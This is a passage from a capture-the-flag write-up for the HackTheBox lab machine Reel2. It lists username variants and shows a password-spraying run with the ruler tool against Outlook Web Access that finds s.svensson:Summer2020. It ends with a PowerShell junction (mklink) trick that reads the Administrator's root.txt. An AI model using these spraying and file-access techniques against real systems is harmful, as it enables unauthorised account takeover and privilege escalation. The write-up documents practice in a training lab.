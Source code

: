 ```
svensson_sven
svens
svenssons
ssvensson
ssven
s.svensson
s.sven
s_svensson
s_sven
sven.s
svensson_s

---------------------------------------
```

Tests with summer2020, Summer2020 (used already in simmilar CTFs)
coincedently when i was searching for password spraying tools for owa, i've found the password on hacktricks :)
```
./ruler-linux64 --domain reel2.htb -k brute --users users.txt --passwords passwords.txt --delay 0 --verbose

luka@kali:~/htb/reel2$ /home/luka/tools/ruler/ruler --domain reel2.htb -k brute --users usernames --passwords passes.txt --delay 0 --verbose                                          
[+] Starting bruteforce
[+] Trying to Autodiscover domain
[+] 0 of 3 passwords checked
[x] Failed: sven:summer2020
...SNIP...
[x] Failed: svenssons:Summer2020
[x] Failed: ssvensson:Summer2020
[x] Failed: ssven:Summer2020
[+] Success: s.svensson:Summer2020
[x] Failed: s.sven:Summer2020
[x] Failed: s_sven:Summer2020
...SNIP...
```
Login works:

![picture 15](/assets/images/9b2f279087c54851bc1cad8329e9107927a3bc6357d69f3fa26cece8f7ef9bbf.png)  


[10.10.10.210]: PS>$env:Path
[10.10.10.210]: PS>&{cmd /c mklink /J adm c:\Users\Administrator\Desktop}
[10.10.10.210]: PS>Check-File C:\ProgramData\adm\root.txt